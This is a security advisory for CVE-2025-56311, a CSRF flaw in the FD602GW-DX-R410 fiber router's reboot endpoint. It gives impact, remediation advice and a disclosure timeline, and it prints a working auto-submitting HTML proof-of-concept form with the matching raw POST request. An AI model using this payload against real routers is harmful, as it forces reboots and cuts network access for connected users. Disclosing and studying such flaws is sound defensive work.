 # fd602gw-dx-r410-csrf-advisory
CSRF vulnerability in FD602GW-DX-R410 router allows remote attackers to reboot the device via a crafted POST request to /boaform/admin/formReboot when an admin is authenticated.


# CVE-2025-56311: Security Advisory – CSRF Vulnerability in FD602GW-DX-R410 Router Reboot Function

Proof of Concept and Security Advisory for a Cross-Site Request Forgery (CSRF) vulnerability in the FD602GW-DX-R410 fiber router’s admin interface (Firmware V2.2.14). The advisory outlines the impact, attack vector, and recommendations for remediation.

---

## Overview

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the FD602GW-DX-R410 fiber router’s web-based admin console (Firmware V2.2.14). The `/boaform/admin/formReboot` endpoint allows POST requests to trigger a full device reboot without CSRF tokens or origin validation. If an authenticated administrator visits a malicious page, the router can be remotely rebooted without consent.

* **CVE ID:** CVE-2025-56311
* **Advisory Publication Date:** July 2025
* **Discovered by:** Hasanka Amarasinghe (Independent Security Researcher)
* **Vendor:** Shenzhen C-Data Technology Co., Ltd.
* **Product Affected:** FD602GW-DX-R410 Fiber Router
* **Firmware Version:** V2.2.14 (Build.1918.241111)
* **Hardware Version:** R410.1B
* **Bootloader Version:** V3.7-2312181457
* **Web Server:** Boa/0.93.15
* **Access Vector:** Remote (Authenticated admin must be logged in)
* **Severity:** Medium
* **CVSS v3.1 Base Score:** 5.4 (Medium)

---

## Affected Product

* **Device:** FD602GW-DX-R410 Fiber Router
* **Firmware:** V2.2.14 (Build.1918.241111)
* **Component:** Reboot Handler - `/boaform/admin/formReboot`
* **Web Server:** Boa/0.93.15

---

## Vulnerability Details

* **Type:** Cross-Site Request Forgery (CSRF)
* **Attack Vector:** Remote (admin must be logged in to their session)
* **Authentication:** None required for the attacker (admin session required on victim browser)
* **Impact:** Unauthorized reboot of the device
* **State Persistence:** Stateless session, likely tracked via IP or internal session tokens

---

## Proof of Concept (PoC)

### CSRF Payload (HTML)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Pro -->
  <body>
    <form action="http://192.168.1.1/boaform/admin/formReboot" method="POST">
      <input type="hidden" name="postSecurityFlag" value="+65535" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### HTTP Request

```http
POST /boaform/admin/formReboot HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

postSecurityFlag=+65535
```

### Response

HTTP 200 OK; Router reboots immediately.

---

## Recommendations

* Implement CSRF tokens and strict Origin/Referer validation on all admin endpoints.
* Invalidate stale or orphaned sessions and bind sessions to secure cookies.
* Consider CAPTCHA or confirmation prompts before executing destructive actions like reboot.
* Restrict admin interface access to trusted IPs or internal networks only.

---

## Attack Vector

* Requires the router administrator to be authenticated (logged in).
* An attacker lures the victim to visit a malicious webpage which silently triggers a POST request to the reboot endpoint.
* The router accepts the forged request and reboots immediately, causing denial of service.

---

## Impact

* Denial of service due to forced reboot.
* Loss of network availability for all connected users.
* Possibility to chain with other issues (e.g., session hijack or XSS) to elevate impact.

---

## Disclosure Timeline

| Date     | Action                                      |
| -------- | ------------------------------------------- |
| Jun 2025 | Vulnerability discovered                    |
| Jun 2025 | Attempted responsible disclosure (no reply) |
| Jul 2025 | CVE ID requested from MITRE                 |
| Jul 2025 | Advisory prepared and pending publication   |
| Sep 2025 | CVE Assigned, Advisory made public          |

---

## References

* Vendor: Shenzhen C-Data Technology Co., Ltd.
* Device: FD602GW-DX-R410
* Firmware: V2.2.14
* GitHub Advisory: *\[link once public]*

---

## Disclaimer

This advisory is provided for educational and security awareness purposes. The author bears no responsibility for misuse. All testing was performed in a controlled environment.


